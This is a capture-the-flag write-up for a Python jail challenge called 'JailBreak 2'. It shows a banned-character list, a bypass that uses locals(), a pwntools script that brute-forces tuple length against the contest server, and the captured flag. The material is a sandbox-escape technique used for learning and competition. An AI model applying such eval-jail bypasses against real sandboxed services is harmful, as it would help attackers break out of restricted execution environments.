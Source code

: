 # misc/JailBreak 2

<p align = "center">
    <img src="challenge.JPG" alt="alt text" width="75%" height="75%" />
</p>

<details> 
  <summary><b>Hint 1</b></summary>
   What in python is evaluated to a number?
</details>

This is the second of three PyJail challenges in this CTF. For all three challenges, the flag is initialized as a local variable.

```python
flag = open('flag.txt').read().strip()
```

For this challenge, we get to input a message. While the first challenge uses `exec()` on our message, this challenge uses `eval()` instead, and is much easier as it prints out the output for you.

Before our message is evaluated, we would need to bypass the banned character list as shown below:

```python
BANNED_CHARS = "gdvxfiyundmnet/\\'~`@#$%^&.{}0123456789"
```

just like JailBreak 1, we will use `locals()` as it is not blacklisted. Next, we notice a length constraint after the `eval()`, where `len(eval(msg)) == len(flag)`. We can do a trial-and-error, where we store `locals()` in a tuple and increase the tuple size until it is equal to the length of the flag.

```python
from pwn import *

payload = '(locals(), '
end_payload = ')'

i = 1
while True:
    payload += '"", '
    final_payload = (payload + end_payload).encode()

    p = remote("challs.bcactf.com", 30335)

    p.recvuntil(b"message:")
    p.sendline(final_payload)
    received = b""
    while b"Deleted!" not in received and b"flag" not in received:
        received += p.recv(4096)
    if b"flag" in received:
        print(received)
        break

    p.close()

    i += 1
```

We then obtain the flag as such:

```
bcactf{PyTH0n_M4st3R_Pr0veD}
```